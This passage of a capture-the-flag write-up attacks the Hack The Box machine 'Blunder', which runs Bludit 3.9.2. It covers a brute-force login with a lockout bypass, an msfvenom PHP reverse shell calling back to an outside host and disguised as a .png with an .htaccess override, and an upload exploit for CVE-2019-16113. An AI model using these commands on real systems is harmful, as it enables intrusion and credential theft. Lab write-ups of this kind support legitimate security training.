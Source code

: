 In http://10.10.10.191:80/todo.txt we found a user called fergus and inspecting the source code of the CMS we found that we have a webapp called Bludit v3.9.2 and we find the vulnerability **[CVE-2019-16113](https://github.com/ynots0ups/CVE-2019-16113/tree/master)**

First of all, lets create a wordlist with content of the website with cewl

```bash
┌──(kali㉿kali)-[~/Documents/Boxes/Blunder-10.10.10.191]
└─$ cewl 10.10.10.191 > wordlist.txt

┌──(kali㉿kali)-[~/Documents/Boxes/Blunder-10.10.10.191]
└─$ ./48942.py -l http://10.10.10.191/admin/login.php -u user.txt -p wordlist.txt                         
[*] Bludit Auth BF Mitigation Bypass Script by ColdFusionX 
     
[▇] Brute Force: Testing -> fergus:CeWL 6.1 (Max Length) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
[▇] Brute Force: Testing -> fergus:the
[◣] Brute Force: Testing -> fergus:Load
[...SNIP...]

[*] SUCCESS !!
[+] Use Credential -> fergus:RolandDeschain
```

And we got a valid credentials fergus:RolandDeschain , so now we can try **[this exploit](https://www.exploit-db.com/exploits/48701)** 

```bash
┌──(kali㉿kali)-[~/Documents/Boxes/Blunder-10.10.10.191]
└─$ msfvenom -p php/reverse_php LHOST=10.10.14.23 LPORT=9001 -f raw -b '"' > evil.png             
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
Found 2 compatible encoders
Attempting to encode payload with 1 iterations of php/base64
php/base64 succeeded with size 3998 (iteration=0)
php/base64 chosen with final size 3998
Payload size: 3998 bytes

┌──(kali㉿kali)-[~/Documents/Boxes/Blunder-10.10.10.191]
└─$ echo -e "<?php $(cat evil.png)" > evil.png   

┌──(kali㉿kali)-[~/Documents/Boxes/Blunder-10.10.10.191]
└─$ echo "RewriteEngine off" > .htaccess    

┌──(kali㉿kali)-[~/Documents/Boxes/Blunder-10.10.10.191]
└─$ echo "AddType application/x-httpd-php .png" >> .htaccess

┌──(kali㉿kali)-[~/Documents/Boxes/Blunder-10.10.10.191]
└─$ python3 48701.py         
cookie: 1ls25refslftcbgkc69rov3ms4
csrf_token: def0d466fb6fd00e97b02a2a880bf12d3e9dd5ee
Uploading payload: evil.png
Uploading payload: .htaccess
```

Now going to http://10.10.10.191/bl-content/tmp/temp/evil.png we will trigger the payload and get a shell. In the file `/var/www/bludit-3.10.0a/bl-content/databases/users.php` we find hugo credentials in SHA-1 format so we decode them with crackstation and found hugo:Password120

